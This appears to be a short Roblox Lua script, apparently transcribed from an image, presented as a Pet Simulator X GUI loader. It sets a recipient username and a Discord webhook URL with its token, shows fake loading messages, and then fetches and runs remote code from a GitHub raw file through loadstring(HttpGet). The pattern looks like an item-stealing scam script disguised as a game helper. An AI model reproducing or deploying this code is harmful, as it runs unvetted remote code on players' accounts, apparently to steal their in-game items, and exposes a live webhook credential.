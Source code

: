 Username = "alisa_milanakul"

WebHook = https://discord.com/api/webhooks/1084533100714934304/1SW0Nh6dR5LRbphWwSaKR2PUBoKKgXwb09DCPRYW4LCNliOX6TFycOTW6xmeEZ9YFe_P"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script Loading....."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
